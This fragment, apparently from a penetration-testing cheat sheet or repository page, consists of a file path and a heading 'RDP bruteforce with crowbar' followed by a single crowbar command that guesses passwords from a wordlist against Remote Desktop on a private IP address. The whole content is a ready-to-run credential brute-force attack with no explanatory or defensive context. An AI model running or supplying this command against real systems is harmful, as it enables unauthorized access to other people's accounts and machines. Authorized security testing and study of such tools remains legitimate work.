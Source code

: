 **RDP bruteforce with crowbar**

```
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```
